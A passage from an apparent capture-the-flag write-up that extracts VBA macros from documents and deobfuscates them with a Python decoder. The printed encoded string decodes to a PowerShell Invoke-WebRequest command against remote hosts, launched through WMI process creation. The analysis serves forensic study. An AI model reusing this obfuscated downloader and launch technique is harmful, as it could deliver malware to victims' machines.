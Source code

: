 ```python
            if any(file.lower().endswith(ext) for ext in supported_extensions):
                file_path = os.path.join(root, file)
                extract_vba_from_file(file_path)

if __name__ == "__main__":
    main()
```
After extracting the Macros from each file, most of them will be encrypted in a similar structure:

![P15](/assets/images/CTF/b1.png)

We use this code to get the decrypted content:

```python
def achieve(believe):
    return chr(believe - 16)

def retrieve(relieve):
    return relieve[:3]

def perceive(deceive):
    return deceive[3:]

def receive(conceive):
    grieve = ""
    while len(conceive) > 0:
        grieve += achieve(int(retrieve(conceive)))
        conceive = perceive(conceive)
    return grieve

def MyMacro():
    thieve = "128127135117130131120117124124048089126134127123117061103117114098117129133117131132048061101130121048120132132128074063063115127134117130132115127126132130127124062126117132075048089126134127123117061103117114098117129133117131132048061101130121048120132132128131074063063127114131115133130117127128131062127130119074072064072064075048131115048131132127128048131128127127124117130"
    sleeve = receive(thieve)
    print(sleeve)
    # Assuming these are function names and arguments, replace them with actual code
    # GetObject(receive("135121126125119125132131074")).Get(receive("103121126067066111096130127115117131131")).Create(sleeve, reprieve, naive, believe)

if __name__ == "__main__":
    MyMacro()
```
